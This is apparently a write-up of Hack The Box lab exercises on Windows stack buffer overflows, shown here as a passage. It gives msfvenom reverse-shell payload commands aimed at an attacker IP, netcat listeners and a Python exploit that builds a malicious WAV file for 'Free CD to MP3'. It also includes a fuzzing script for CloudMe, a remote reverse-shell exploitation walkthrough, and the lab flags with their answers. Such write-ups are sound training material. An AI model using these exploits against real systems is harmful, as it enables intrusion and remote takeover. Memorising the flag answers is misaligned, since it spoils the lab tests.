
*_Figure 11.1 — Lab execution and output verification (Page 11)_*


*_Figure 11.2 — Lab execution and output verification (Page 11)_*


*_Figure 11.3 — Lab execution and output verification (Page 11)_*


### Finding a Return Instruction

> **Lab Question (Page 12)**: Try to search the 'cdextract.exe' binary for the 'PUSH ESP; RET' instruction as pattern '54C3'. What is the address of the first result you get?
>
> **Flag / Answer**: `00457418`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing from last question, on the CPU tab, we right click the
window, and select 'Search for' → 'Current Module' → 'Pattern':

A window will be opened:

We search the required string as hex '54C3'

We run the search:


*_Figure 12.1 — Lab execution and output verification (Page 12)_*


*_Figure 12.2 — Lab execution and output verification (Page 12)_*


### Jumping to Shellcode

> **Lab Question (Page 13)**: In the 'Documents' folder you will find a shortcut that runs the 'Free CD to MP3' program as admin. Try to use the exploit on it to get a command prompt as the admin user, and read the flag in the admin's Desktop.
>
> **Flag / Answer**: `HTB{l0c4l_0v3rfl0w_m4573r}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, on the pwnbox (or any other attacking machine) – we will start a
netcat listener, listening on the arbitrary port 4444:
```bash
nc -lnvp 4444
```


Now, we will use msfvenom to generate windows reverse shell payload, as
```bash
python syntax:
```
msfvenom -p 'windows/shell_reverse_tcp' LHOST=<attacker-IP>
LPORT=4444 -f 'python'


*_Figure 13.1 — Lab execution and output verification (Page 13)_*


*_Figure 13.2 — Lab execution and output verification (Page 13)_*


### We get the payload

We get the payload:

* *

*note – as the payload is specific for the attacking IP address 10.10.15.30, and
port 4444, there is no need to include it all. *
now we will use the python script, similar to the bad_chars script – to create a
wav file with the generated payload (replace the <python payload> with the
generated payload above:
from struct import pack

def exploit():
# msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python'
-b '\x00'
<python payload>

offset = 4112
buffer = b"A"*offset
eip = pack('<L', 0x00419D0B)
nop = b"\x90"*32
payload = buffer + eip + nop + buf

with open('exploit.wav', 'wb') as f:
f.write(payload)

```bash
exploit()
```


*_Figure 14.1 — Lab execution and output verification (Page 14)_*


*_Figure 14.2 — Lab execution and output verification (Page 14)_*


### The script will generate a file 'exploit.wav'

*
*

The script will generate a file 'exploit.wav':


Now lets open from the documents the admin privileged 'Free CD to MP3' (not
using the debugger), and encode the exploit.wav:


*_Figure 15.1 — Lab execution and output verification (Page 15)_*


*_Figure 15.2 — Lab execution and output verification (Page 15)_*


*_Figure 15.3 — Lab execution and output verification (Page 15)_*


### Upon encoding – we get a shell

Upon encoding – we get a shell:


From here the path to obtain the flag is short:


*_Figure 16.1 — Lab execution and output verification (Page 16)_*


*_Figure 16.2 — Lab execution and output verification (Page 16)_*


*_Figure 16.3 — Lab execution and output verification (Page 16)_*


### Remote Fuzzing

> **Lab Question (Page 17)**: Try the gradual remote fuzzing exercise shown above. What is the payload size that crashes the program 'in bytes'?
>
> **Flag / Answer**: `1500`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First lets connect to the target machine:

We have the program 'CloudMe' running in it. Lets open it:


Now lets go to the x32dgb attach:


*_Figure 17.1 — Lab execution and output verification (Page 17)_*


*_Figure 17.2 — Lab execution and output verification (Page 17)_*


### powershell command

#### Technical Methodology & Exploit Execution:

```bash
python --version
```


The application is running on localhost, port 8888.

Now that we know the target IP , and port – we will proceed to fuzz the
program using the following python script:


*_Figure 18.1 — Lab execution and output verification (Page 18)_*


*_Figure 18.2 — Lab execution and output verification (Page 18)_*


*_Figure 18.3 — Lab execution and output verification (Page 18)_*


### def fuzz()

import socket
from struct import pack

IP = "127.0.0.1"
port = 8888

def fuzz():
try:
for i in range(0,10000,500):
buffer = b"A"*i
print("Fuzzing %s bytes" % i)
s = socket.socket(socket.AF_INET,
socket.SOCK_STREAM)
s.connect((IP, port))
s.send(buffer)
breakpoint()
s.close()
except:
print("Could not establish a connection")

fuzz()
saved as 'fuzzing.py'.
Before we run it, we will attach the CloudMe Process on x32dbg:

→


*_Figure 19.1 — Lab execution and output verification (Page 19)_*


### Once attached, we will run the 'fuzzing.py'

Once attached, we will run the 'fuzzing.py':

The line 'breakpoint()' in the script, stops the iteration until a user input is
received in the form of 'c' – to proceed to the next iteration:

Up until 1000 bytes fuzzing payload the assembly instructions, and the EIP
registeer remain the same.

But on the 1500 bytes payload:


*_Figure 20.1 — Lab execution and output verification (Page 20)_*


*_Figure 20.2 — Lab execution and output verification (Page 20)_*


*_Figure 20.3 — Lab execution and output verification (Page 20)_*


### Remote Exploitation

> **Lab Question (Page 21)**: The above server has 'CloudMe' listening on port 8889. Try to use the exploit you built to get a reverse shell and read the flag on the user's Desktop.
>
> **Flag / Answer**: `HTB{r3m073_buff3r_0v3rfl0w3r}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, lets ready a netcat listener, listeneing on the arbitrary port of
4444:
```bash
nc -lnvp 4444
```


Now, we will use msfvenom to generate windows reverse shell payload, as
```bash
python syntax:
```
msfvenom -p 'windows/shell_reverse_tcp' LHOST=<attacker-IP>
LPORT=4444 -f 'python'


*_Figure 21.1 — Lab execution and output verification (Page 21)_*


*_Figure 21.2 — Lab execution and output verification (Page 21)_*


### our own msfvenom generated payload

*
*

*note – as the payload is specific for the attacking IP address 10.10.15.74, and
port 4444, there is no need to include it all. *

Now as the payload ready, we will download the buffer overflow exploit from
here, and name it 'win32bof_exploit_remote_py.py'.
In it, in the function 'exploit' - We will replace the existing payload 'buf' with
our own msfvenom generated payload:

*
*

*replace 'buf' payload with our own generated payload. As the comment
suggests – the payload is for the listener in 10.10.15.10:1234, not our listener. *
*Important – the shown payload is after the change, and is fit for the listener
10.10.15.74:4444. *


*_Figure 22.1 — Lab execution and output verification (Page 22)_*


*_Figure 22.2 — Lab execution and output verification (Page 22)_*


*_Figure 22.3 — Lab execution and output verification (Page 22)_*


*_Figure 22.4 — Lab execution and output verification (Page 22)_*


### Now lets run the script

*
*


Now lets run the script:
```bash
python win32bof_exploit_remote_py.py
```

While the script itself produces no output, Upon script execution – we get a
reverse shell:


Now all we have to do is to take the flag from the user's desktop:


*_Figure 23.1 — Lab execution and output verification (Page 23)_*


*_Figure 23.2 — Lab execution and output verification (Page 23)_*


*_Figure 23.3 — Lab execution and output verification (Page 23)_*


